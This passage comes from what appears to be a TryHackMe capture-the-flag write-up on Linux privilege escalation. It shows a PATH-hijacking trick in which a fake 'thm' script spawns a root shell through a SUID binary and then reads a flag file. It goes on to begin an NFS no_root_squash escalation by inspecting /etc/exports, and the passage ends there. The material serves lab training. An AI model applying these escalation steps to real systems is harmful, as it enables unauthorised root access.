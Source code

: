 I ran the test executable, and we can see that it complains that `thm` is not found. Creating our own `thm` file might just work! So let's do that, create the file using `touch thm`, make it executable `chmod +x thm`:

```
sudo su -
# We can also add this line here to get us the flag:
# cat /home/matt/flag6.txt
bash
```

Ok now that we have that done let's try it out. Remember we must also add the current path to the `PATH` variable:

```
karen@ip-10-10-156-188:/home/murdoch$ export PATH=/home/murdoch:$PATH
karen@ip-10-10-156-188:/home/murdoch$ ./test
root@ip-10-10-156-188:~# cat /home/matt/flag6.txt
THM-*******
```

Bingo! We got out flag and a `root` shell! Buy one, get one free :)

# Privilege Escalation: NFS

Here we are looking at abusing privileges of Network File Sharing (NFS) configuration `/etc/exports`. Let's connect to the system and have a look"

```
$ ps aux | grep nfsd
root         435  0.0  0.0      0     0 ?        S    00:03   0:00 [nfsd]
root         436  0.0  0.0      0     0 ?        S    00:03   0:00 [nfsd]
root         437  0.0  0.0      0     0 ?        S    00:03   0:00 [nfsd]
root         438  0.0  0.0      0     0 ?        S    00:03   0:00 [nfsd]
root         439  0.0  0.0      0     0 ?        S    00:03   0:00 [nfsd]
root         440  0.0  0.0      0     0 ?        S    00:03   0:00 [nfsd]
root         441  0.0  0.0      0     0 ?        S    00:03   0:00 [nfsd]
root         442  0.0  0.0      0     0 ?        S    00:03   0:00 [nfsd]
karen       1216  0.0  0.0   8160   664 pts/1    S+   00:15   0:00 
```

Let's take a look at the file itself:

```
karen@ip-10-10-242-200:/$ cat /etc/exports 
# /etc/exports: the access control list for filesystems which may be exported                                                         
#               to NFS clients.  See exports(5).                   
#                                                                  
# Example for NFSv2 and NFSv3:                                     
# /srv/homes       hostname1(rw,sync,no_subtree_check) hostname2(ro,sync,no_subtree_check)                                            
#                                                                  
# Example for NFSv4:                                               
# /srv/nfs4        gss/krb5i(rw,sync,fsid=0,crossmnt,no_subtree_check)                                                                
# /srv/nfs4/homes  gss/krb5i(rw,sync,no_subtree_check)             
#                                                                  
/home/backup *(rw,sync,insecure,no_root_squash,no_subtree_check)   
/tmp *(rw,sync,insecure,no_root_squash,no_subtree_check)           
/home/ubuntu/sharedfolder *(rw,sync,insecure,no_root_squash,no_subtree_check)
```

